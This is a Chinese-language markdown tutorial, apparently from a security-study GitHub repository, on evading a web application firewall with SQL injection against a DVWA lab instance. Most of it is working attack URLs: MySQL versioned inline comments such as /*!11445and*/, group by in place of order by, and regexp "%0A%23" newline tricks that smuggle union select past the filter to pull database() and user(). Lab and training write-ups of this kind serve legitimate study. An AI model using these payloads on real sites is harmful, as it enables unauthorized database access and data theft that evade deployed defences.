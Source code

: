 ## waf绕过
### 1、在开启waf的情况，测试
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' and '1'='1&Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_13.png)
### 2、绕过waf，内敛注释成功绕过
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1'/*!11445and*/'1'='1&Submit=Submit#
```
```yaml
1'/*!11445and*/'1'='
解析：
/*      */: 中间的内容是注解
/*！    */: 中间的内容取消注解
```
```yaml
/*!11445*/表示版本号；从00000~99999 ，需要⼩于mysql的版本；
例如:mysql 5.6 ，则版本号需要小于 56000 才能执行成功
```
### 3、order by 更换为 group by绕过
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' order by '1-- &Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_14.png)
#### 更换group by
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' group by '1-- &Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_15.png)
#### 输入group by 3报错，就是2列
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' group by 3-- &Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_16.png)
### 4、union all 绕过
```yaml
在参数后插入其他语句，添加注释，然后使用截断，使用%23使得语句报错，将双引号直接注 释
```
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' regexp "%0A%23" /*!11144union %0A select */1,2-- &Submit=Submit#
```
#### 语句翻译
```shell script
1' regexp "%0A%23" /*!11144union %0A select */1,2--
```
```yaml
%0A：回车
%23：#
regexp "%0A%23"：正则匹配，回车#
```
```yaml
1' regexp "
#" /*!11144union 
 select */1,2--  
```
![image](https://github.com/498946975/Security/blob/master/images/waf_17.png)
### 5、database(),user()绕过，再次使用内敛注释绕过
![image](https://github.com/498946975/Security/blob/master/images/waf_18.png)
database()绕过
```shell script
?id=-1' regexp "%0A%23"/*!11144union %0A select*/ 1,database(%0A /*!11144*/)--
```
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' regexp "%0A%23" /*!11144union %0A select */database(%0A /*!11144*/),2-- &Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_19.png)
#### user()绕过
```shell script
http://172.16.120.165/dvwa/vulnerabilities/sqli/?id=1' regexp "%0A%23" /*!11144union %0A select */database(%0A /*!11144*/),user(%0A /*!11144*/)-- &Submit=Submit#
```
![image](https://github.com/498946975/Security/blob/master/images/waf_20.png)



